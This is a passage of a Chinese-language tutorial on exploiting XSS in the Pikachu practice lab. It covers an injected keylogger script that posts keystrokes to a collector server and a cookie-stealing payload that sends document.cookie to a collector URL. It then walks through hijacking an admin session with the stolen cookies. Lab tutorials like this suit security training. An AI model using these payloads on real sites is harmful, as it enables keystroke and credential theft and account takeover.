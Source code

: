 ```php
                alert("页面请求失败");
            }
        }
    }

    var postdate = xl;
    ajax.open("POST", "http://192.168.1.15/pkxss/rkeypress/rkserver.php",true);
    ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    ajax.setRequestHeader("Content-length", postdate.length);
    ajax.setRequestHeader("Connection", "close");
    ajax.send(postdate);
```



在 54 行处，我们需要把 `http://192.168.1.15/pkxss/rkeypress/rkserver.php` 改为自己的 Pikachu 平台地址：

`http://YOUR_IP_ADDRESS:PORT/pkxss/rkeypress/rkserver.php`，这个脚本是用于存储键盘输入。

然后写到：`<script src="http://YOUR_IP_ADDRESS:PORT/pkxss/rkeypress/rk.js"></script>`

![](https://img.wukaipeng.com/2023/1015-142720-image-20231015142720582.png)

然后进入 Pikachu 平台的 管理工具 » XSS 后台，然后查看「键盘记录」，现在只要存储型XSS 的留言板有键盘输入，就能够捕捉到：

![](https://img.wukaipeng.com/2023/1015-142945-image-20231015142945411.png)

## 平台利用



### 获取 Cookie

Pikachu 平台已经为我们提供了收集 Cookie 的脚本：`<script>document.write('<img src="http://YOUR_IP_ADDRESS:PORT/pkxss/xcookie/cookie.php? cookie='+document.cookie+'"/>')</script>`

![](https://img.wukaipeng.com/2023/1015-153622-image-20231015153622001.png)

模拟受害者登录后台，恶意代码被执行：

![](https://img.wukaipeng.com/2023/1015-153703-image-20231015153702933.png)

此时攻击者在后台看到 cookie 已经被收集上来了：

![](https://img.wukaipeng.com/2023/1015-153756-image-20231015153756287.png)

现在攻击者已经拿到 Cookie 了，那么就可以登录 Admin 端了，在另外的浏览器进入地址：`http://YOUR_IP_ADDRESS:PORT/vul/xss/xssblind/admin_login.php`

通过 Cookie Editor 这样的插件，攻击者把获取得到的 Cookie，包括 `ant[pw]`， `ant[uname]`，`PHPSESSID`， `security` 填写上去：

![](https://img.wukaipeng.com/2023/1015-161019-image-20231015161019465.png)

接着在地址栏再输入 `http://YOUR_IP_ADDRESS:PORT/vul/xss/xssblind/admin.php`，可以看到不会被重定向到 `../admin_login.php` 页面了，而是直接登录成功
